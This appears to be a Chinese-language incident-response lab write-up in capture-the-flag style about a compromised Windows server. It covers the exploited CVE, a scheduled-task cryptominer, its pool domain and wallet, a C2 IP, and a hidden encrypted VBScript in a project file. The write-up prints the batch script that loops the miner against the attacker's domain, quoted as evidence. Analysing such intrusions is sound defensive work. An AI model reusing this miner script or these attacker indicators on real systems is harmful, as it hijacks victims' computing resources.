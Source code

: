 ### 攻击者使用什么漏洞获取了服务器的配置文件？

![image-20250531115104850](./img/image-20250531115104850.png)

搜索

![image-20250531115122726](./img/image-20250531115122726.png)

```
CVE-2025-31161
```

### 恶意域名是什么？

查看计划任务

![image-20250531115408241](./img/image-20250531115408241.png)

```
b.oracleservice.top
```

### 系统每天晚上系统都会卡卡的帮小明找到问题出在了那？

flag为配置名称（无空格）

![image-20250531115512207](./img/image-20250531115512207.png)

```
@echo off
cd /d "%~dp0"
:start
sqlwpr.exe -a rx/0 --url b.oracleservice.top --user 46E9UkTFqALXNh2mSbA7WGDoa2i6h4WVgUgPVdT9ZdtweLRvAhWmbvuY1dhEmfjHbsavKXo3eGf5ZRb4qJzFXLVHGYH4moQ -t 0
goto start
```

```
flag{sqlbackingup}
```

### 疑似是什么组织发动的攻击？

微步搜索域名

![image-20250531115822566](./img/image-20250531115822566.png)

```
flag{8220Gang}
```

### 攻击者C2服务器IP是什么？

翻找系统安全日志

![image-20250602205742241](./img/image-20250602205742241.png)

调用了poweshell上线

```
156.238.230.57
```

**事件ID 5156**

含义：记录了windows操作系统中的一种网络流量。具体来说，当windows操作系统中的网络流量通过防火墙时，就会生成一条windows安全日志5156事件。这条事件包括：事件发生的时间、源地址和目标地址、协议类型网络流量使用的协议类型、源目业务口、源网络地址类型和目标网络地址类型、防火墙规则防火墙匹配的规则

查看powershell历史命令

```
Get-History
```

```
notepad $env:APPDATA\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

这里未查到

### 开源项目

在ConsoleApplication2.vcxproj文件中有一个else分支，有一段被注释掉的VBScript代码。由于if条件为真，所以else分支不会执行。分析解密这段VBScript

![image-20250531122242096](./img/image-20250531122242096.png)

Base64解码

![image-20250531122223577](./img/image-20250531122223577.png)

RC4解密

![image-20250531122139636](./img/image-20250531122139636.png)

```
Flag：flag{rqweripqwe[rqwe[rjqw[eprjqweprij}
```

